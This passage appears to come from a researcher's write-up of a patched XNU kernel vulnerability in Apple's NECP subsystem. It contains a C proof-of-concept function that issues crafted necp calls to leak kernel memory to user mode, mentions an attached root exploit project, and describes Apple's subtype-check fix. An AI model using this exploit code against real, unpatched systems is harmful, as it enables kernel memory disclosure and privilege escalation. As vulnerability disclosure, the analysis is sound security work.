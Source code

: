    ```
     * at location (c), TAILQ_REMOVE requires client_update(the 0xf bytes controlled address) as type TAILQ_ENTRY at offset 0. So we must palce 2 writable pointers at 0x0 and 0x8 separately in order to success TAILQ_REMOVE . We can use **necp_addr_type_write** vulnerability to do this. 
     * at location (d) (e), it may leak bytes to user-mode buffer.
     
    

# PoC of AAF
```

bool necp_leak_free() {
    char yy[0xa0];
    
    int pid = getpid();
    
    if ((pid & 4) == false) {
        printf("pid not ok\n");
        return false;
    }
    
    int fd = necp_open(2);
    
    necp_session_action(fd, 0, (char*)0x7f0000000000, 0, yy, 0xa0);
    
    char client_id[0x10];

    uint8_t *buffer = (uint8_t*)map(0x21000);
    if (buffer == 0) {
        //write(1,...)
        return true;
    }
    unmap((uint64_t)&buffer[0x20000], 0x1000);
    
    int update_len = necp_client_action(fd, 15, client_id, 0x10, (char*)buffer,0x51000);
    
    int msg_len = 0x10+update_len;
    int msg_type = 2;
    
    write(1, &msg_len, 4);
    write(1, &msg_type, 4);
    
    printf("client_id:\n");
    uint64_t *p = (uint64_t*)client_id;
    printf("0x%llx 0x%llx\n", p[0], p[1]);
    write(1, &p[0], 8);
    write(1, &p[1], 8);
    
    p = (uint64_t*)buffer;
    for (int i=0; i<update_len/8; i++) {
        write(1, &p[i], 8);
    }
    
    
    return true;
}
```

# PoC of Root
see rcx17 for details. I attached the root xcode project in zdi-rcx17.

# How did Apple fix this?
Apple added subtype check inside fg_data.  
check subtype 1 in fg_data(necp_session object):  
![necp_free_fix1]({{site.url}}{{site.baseurl}}/res/necp_free_fix1.png)  
  

check subtype 2 in fg_data(necp_fd_data object):  
![necp_free_fix2]({{site.url}}{{site.baseurl}}/res/necp_free_fix2.png)  
  
```
